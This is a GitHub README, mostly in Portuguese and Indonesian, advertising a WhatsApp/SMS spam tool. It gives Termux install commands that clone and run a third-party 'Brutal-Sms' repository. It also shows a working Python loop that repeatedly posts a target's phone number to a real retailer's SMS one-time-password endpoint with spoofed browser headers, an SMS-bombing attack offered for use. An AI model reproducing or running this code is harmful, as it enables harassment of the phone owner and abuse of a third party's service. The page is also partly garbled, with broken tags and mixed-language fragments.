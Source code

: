 # SPAM-WHATSAPP-
Essa e uma ferramenta feita por mim Lkz Geralmente usada pra spams no whatsapp 
## Brutal-Sms
Ferramenta Spam tool perfeita Created by lkz
INF3CTUS 🇧🇷 🇵🇹 

<details open>
  <summary><strong> Install Package + Run Script </strong></summary>

  ```bash
  pkg update && pkg upgrade
  pkg install nano
  pkg install git
  pkg install python
  git clone https://github.com/AmmarrBN/Brutal-Sms
  cd Brutal-Sms
  bash install.sh
  python run.py
  ```
  </detales>

<details open>
  <summary><strong> 24 jam non stop tutorial </strong></summary>

  ```bash
  Example:
  abc=input("Nomor Target:")
  while True:
        print (abc)
        # Tambah time.sleep(5) (Jika Ingin Delay)
  ```
  </details>

#### INF3CTUS 📍
|INF3CTUS | Check |
|--------|--------|
| **24H Sem parar* |[✔️](. https://github.com/lkzFDC/SPAM-WHATSAPP-/blob/main/README.md ) |
| **Brutal Spam** |[✔️](https://github.com/lkzFDC/SPAM-WHATSAPP-/blob/main/README.md) |
| **Simple** |[✔️](https://github.com/lkzFDC/SPAM-WHATSAPP-/blob/main/README.md) |
| **No Encrypt** |[✔️](https://github.com/lkzFDC/SPAM-WHATSAPP-/blob/main/README.md) |
| 
---------

<details open>
  <summary><strong> 24 jam non stop example </strong></summary>

  ```bash
  nomor=input("Nomor Target:")
  while True:
        requests.post("https://beryllium.mapclub.com/api/member/registration/sms/otp",headers={"Host":"beryllium.mapclub.com","content-type":"application/json","accept-language":"en-US","accept":"application/json, text/plain, */*","user-agent":"Mozilla/5.0 (Linux; Android 10; M2006C3LG) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.101 Mobile Safari/537.36","origin":"https://www.mapclub.com","sec-fetch-site":"same-site","sec-fetch-mode":"cors","sec-fetch-dest":"empty","referer":"https://www.mapclub.com/","accept-encoding":"gzip, deflate, br"},data=json.dumps({"account":nomor})).text
        time.sleep(10) # Waktu Delay Bisa Atur Sendiri
  ```
  </details>

> Entre No nosso Discord
> https://discord.gg/HPcuFzxR

